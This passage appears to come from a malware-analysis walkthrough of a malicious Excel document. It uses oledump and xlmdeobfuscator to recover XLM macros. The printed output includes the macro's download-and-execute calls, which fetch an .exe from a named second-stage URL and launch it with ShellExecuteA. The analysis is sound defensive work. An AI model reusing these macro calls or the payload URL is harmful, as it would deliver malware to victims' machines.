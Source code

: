  And voila. Alternatively you could instruct the plugin to dump all strings found in the BIFF structure before passing it to egrep to search for possible IP Addresses - this didn't turn up any results in this case:

```
root@ubuntu:/home/montana/Documents/February/fsample# oledump.py decrypted.bin -p plugin_biff --pluginoptions -s | egrep "\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}"| less
```

### Deobfuscating XLM Macros (xlmdeobfuscator)

Xlmdeobfuscator is another very cool tool that steps through the macros to reverse what it'll do when executed - in this case it makes light work of what we did with oledump - identifying the 2nd stage download URL, and directory location it's placed in before being executed:

```
root@ubuntu:/home/montana/Documents/February/fsample# xlmdeobfuscator -f decrypted.bin 
pywin32 is not installed (only is required if you want to use MS Excel)

          _        _______
|\     /|( \      (       )
( \   / )| (      | () () |
 \ (_) / | |      | || || |
  ) _ (  | |      | |(_)| |
 / ( ) \ | |      | |   | |
( /   \ )| (____/\| )   ( |
|/     \|(_______/|/     \|
   ______   _______  _______  ______   _______           _______  _______  _______ _________ _______  _______
  (  __  \ (  ____ \(  ___  )(  ___ \ (  ____ \|\     /|(  ____ \(  ____ \(  ___  )\__   __/(  ___  )(  ____ )
  | (  \  )| (    \/| (   ) || (   ) )| (    \/| )   ( || (    \/| (    \/| (   ) |   ) (   | (   ) || (    )|
  | |   ) || (__    | |   | || (__/ / | (__    | |   | || (_____ | |      | (___) |   | |   | |   | || (____)|
  | |   | ||  __)   | |   | ||  __ (  |  __)   | |   | |(_____  )| |      |  ___  |   | |   | |   | ||     __)
  | |   ) || (      | |   | || (  \ \ | (      | |   | |      ) || |      | (   ) |   | |   | |   | || (\ (
  | (__/  )| (____/\| (___) || )___) )| )      | (___) |/\____) || (____/\| )   ( |   | |   | (___) || ) \ \__
  (______/ (_______/(_______)|/ \___/ |/       (_______)\_______)(_______/|/     \|   )_(   (_______)|/   \__/

    
XLMMacroDeobfuscator(v0.1.6) - https://github.com/DissectMalware/XLMMacroDeobfuscator

File: /home/montana/Documents/February/fsample/decrypted.bin

Unencrypted xls file

[…]

CELL:DW1337    , FullEvaluation      , CALL("Kernel32","CreateDirectoryA","JCJ","C:\jhbtqNj\IOKVYnJ",0)
CELL:DW1338    , FullEvaluation      , CALL("URLMON","URLDownloadToFileA","JJCCJJ",0,"http://rilaer.com/IfAmGZIJjbwzvKNTxSPM/ixcxmzcvqi.exe","C:\jhbtqNj\IOKVYnJ\KUdYCRk.exe",0,0)
CELL:DW1339    , FullEvaluation      , CALL("Shell32","ShellExecuteA","JJCCCCJ",0,"Open","C:\jhbtqNj\IOKVYnJ\KUdYCRk.exe",,0,0)
```
